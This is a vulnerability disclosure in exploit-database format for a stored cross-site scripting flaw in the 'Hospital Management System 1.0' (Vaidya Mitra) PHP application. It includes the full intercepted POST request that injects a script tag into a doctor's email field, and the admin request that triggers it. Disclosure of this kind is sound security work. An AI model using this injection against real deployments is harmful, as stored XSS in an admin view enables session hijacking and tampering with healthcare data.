 ```yaml
---
title: Hospital Management System 1.0 Cross Site Scripting
published: true
---
```


- Exploit Title: Hospital Management System - Stord XSS
- Google Dork: N/A
- Application: Hospital Management System
- Date: 27.02.2024
- Bugs: Stord XSS
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver
- CVE : N/A


### Vulnerability Description:
A security vulnerability has been identified in the "Vaidya Mitra" healthcare application, specifically in the doctor's account settings functionality. The issue arises due to inadequate input validation, allowing an attacker to inject malicious scripts into the system, leading to a Cross-Site Scripting (XSS) vulnerability.


### Proof of Concept (PoC):
1. Exploiting Doctor's Account Settings:

The attacker, using the Burp Suite Proxy tool, intercepts and modifies a POST request sent by the doctor to update their account settings.
The payload `<script>alert(1)</script>` is injected into the email parameter.
The manipulated request looks like the following:

```
POST /Vaidya%20Mitra/vm/doctor/edit-doc.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 170
...

id00=2&oldemail=doctor%40doctor.com&email=doctor%40doctor.com<script>alert(1123)</script>&name=Dr.Akash+Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassword=doctor
```

Upon submission, the payload gets stored in the doctor's email field.

2. Triggering XSS in Admin's View:

An admin viewing doctors' information at `http://localhost/Vaidya%20Mitra/vm/admin/doctors.php` inadvertently triggers the XSS vulnerability.
The admin sends a GET request to view a doctor's details:

```
GET /Vaidya%20Mitra/vm/admin/doctors.php?action=view&id=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
...
```

The server returns the doctor's information, and the XSS payload in the email field is executed in the admin's browser, leading to the alert being triggered.



[PoC - video](https://drive.google.com/file/d/1dCz5Q3mKMfpB2pjPeOV6ZoBi1Nj74DR1/view?usp=drive_link)